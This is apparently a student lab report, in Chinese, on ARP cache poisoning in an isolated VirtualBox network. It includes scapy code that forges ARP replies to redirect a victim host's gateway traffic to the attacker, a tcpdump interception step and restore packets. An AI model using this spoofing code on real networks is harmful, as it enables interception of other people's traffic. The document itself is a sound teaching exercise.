

# 模拟ARP投毒实验：


## 实验目标：

* 用scapy毒化”目标主机的 ARP 缓存
* 基于 scapy 编写 ARP 投毒劫持工具


## 实验环境：

* VirtualBox 6.1.26

* 攻击者主机： kali 2021.2 (内部网络2) 

* 网关：Debian 10 （内部网络2)

* 靶机：Debian 10 （内部网络2）

使用内部网络来最小化实验干扰。


## 实验过程：

#### 网络拓扑：


| 主机名        | IP地址            | MAC地址           |
| ------------- | ----------------- | ----------------- |
| gw-debian     | 172.16.222.1/24   | 08:00:27:df:22:5b |
| attacker-kali | 172.16.222.102/24 | 08:00:27:02:c5:a1 |
| victim-debian | 172.16.222.123/24 | 08:00:27:d5:ce:d8 |


### 实验一：检测局域网中的异常终端：

**1.打开攻击者主机上的scapy：**

kali系统内置scapy，如果没有则进入到python环境中[通过pip安装](https://pypi.org/project/scapy/)

需要通过sudo权限启动scapy，启动成功过后显示如下：


**2.检测受害者主机网卡的「混杂模式」是否启用：**

通过ssh连接受害者主机（此步可省略）

输入命令`ip a` （或者在已知网卡名的情况下输入：`ip link show [网卡名]`）观察目标网卡状态：


明确观察到无 `PROMISC` 关键字样，确认混杂模式关闭

使用攻击者主机的scapy交互式终端向受害者主机发送一个混杂模式探听包：

```
pkt = promiscping("[受害者靶机ip地址]")
```

从scapy的输出结果中可见没有得到相应。


回到受害者主机上手动开启该网卡的混杂模式

```
sudo ip link set [网卡名] promisc on
ip link show [网卡名]
```


明确观察到有 `PROMISC` 关键字样，确认混杂模式开启

重复刚才在攻击者主机上的操作，可以发现现在scapy的结果中成功出现送达了一个包的提示：


最后关闭受害者靶机的混杂模式：

```
sudo ip link set [网卡名] promisc off
```


### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成：

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="[网关IP地址]")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="[伪装成的网关ip]", pdst="[靶机ip]", hwdst="[攻击者主机MAC]")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed) #该函数并不能将靶机毒化

send(arpspoofed) #需要毒化得使用send函数
```

以上代码执行结果状态如下：


然后观察靶机的arp缓存变化：`ip neigh`


可见原本网关的mac地址在毒化后变成了攻击者主机的mac地址了。

此时我们要是在攻击者主机上进行抓包，则可以成功截获来自靶机的申请：

```
tcpdump -i [局域网卡] -n
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="[网关ip地址]", hwsrc="[网关MAC]", pdst="[靶机ip]")
sendp(restorepkt1, count=100, inter=0.2)
```

完成后在靶机上检查：


可见ARP缓存已经恢复


> sendp(arpspoofed)并不能够成功毒化靶机的arp缓存，只有send(arpspoofed)才能成功毒化，这两个函数的区别在于send()工作在第三层，而sendp()工作在第二层。简单地说，send()是用来发送IP数据包的，而sendp()是用来发送Ether数据包的。


### 实验三：使用自动化工具完成 ARP 投毒劫持实验

使用kali中带有的arpspoof工具完成投毒，具体参数如下：


### 实验四：基于 scapy 编写 ARP 投毒劫持工具

编写python脚本： [AutoArpSpoof.py](AutoArpSpoof.py)  完成对靶机的持续投毒

投毒结果：




## 参考资料

* [第四章课程资料](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#%E5%AE%9E%E9%AA%8C)

* [Scapy官方文档](https://scapy.readthedocs.io/en/latest/)

